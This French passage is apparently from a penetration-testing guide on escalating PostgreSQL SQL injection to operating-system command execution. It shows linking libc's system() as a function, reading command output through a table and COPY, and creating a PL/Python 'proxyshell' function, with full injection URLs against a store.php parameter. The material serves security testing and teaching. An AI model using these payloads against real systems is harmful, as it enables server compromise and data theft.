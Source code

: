Jusqu'à PostgreSQL 8.1, il était possible d'ajouter une fonction personnalisée liée à `libc` :

`CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT`

Puisque `system` renvoie un `int`, comment pouvons-nous récupérer les résultats de `system` stdout ?

Voici une petite astuce :

- créer une table `stdout` : `CREATE TABLE stdout(id serial, system_out text)`
- exécution d'une commande shell redirigeant sa `stdout` : `SELECT system('uname -a > /tmp/test')`
- utilisez une instruction `COPY` pour pousser la sortie de la commande précédente dans la table `stdout` : `COPY stdout(system_out) FROM '/tmp/test*'`
- récupérer la sortie de `stdout` : `SELECT system_out FROM stdout`

###### exemple

```text
/store.php?id=1; CREATE TABLE stdout(id serial, system_out text) --
/store.php?id=1; CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6','system' LANGUAGE 'C'
STRICT --
/store.php?id=1; SELECT system('uname -a > /tmp/test') --
/store.php?id=1; COPY stdout(system_out) FROM '/tmp/test' --
/store.php?id=1 UNION ALL SELECT NULL,(SELECT system_out FROM stdout ORDER BY id DESC),NULL LIMIT 1 OFFSET 1--
```

##### Plpython

PL/Python permet aux utilisateurs de coder des fonctions PostgreSQL en python. Il n'est pas fiable, il n'y a donc aucun moyen de restreindre ce que l'utilisateur peut faire. Il n'est pas installé par défaut et peut être activé sur une base de données donnée par `CREATELANG`

- Vérifiez si PL/Python a été activé sur une base de données : `SELECT count(*) FROM pg_language WHERE lanname='plpythonu'`
- Sinon, essayez d'activer : `CREATE LANGUAGE plpythonu`
- Si l'une des actions ci-dessus a réussi, créez une fonction proxy shell : `CREATE FUNCTION proxyshell(text) RETURNS text AS 'import os; return os.popen(args[0]).read() 'LANGUAGE plpythonu`
- Amusez-vous avec : `SELECT proxyshell (commande os);`

###### exemple

- Créez une fonction shell proxy : `/store.php?id=1 ; CREATE FUNCTION proxyshell(text) RETURNS text AS 'import os;return os.popen(args[0]).read()' LANGUAGE plpythonu;--`
- Exécutez une commande du système d'exploitation : `/store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1 ;--`

##### Plperl

Plperl nous permet de coder des fonctions PostgreSQL en perl. Normalement, il est installé en tant que langage de confiance afin de désactiver l'exécution à l'exécution des opérations qui interagissent avec le système d'exploitation sous-jacent, telles que "open". Ce faisant, il est impossible d'obtenir un accès au niveau du système d'exploitation. Pour injecter avec succès une fonction de type proxyshell, nous devons installer la version non approuvée à partir de l'utilisateur `postgres`, afin d'éviter le soi-disant filtrage de masque d'application des opérations approuvées/non approuvées.
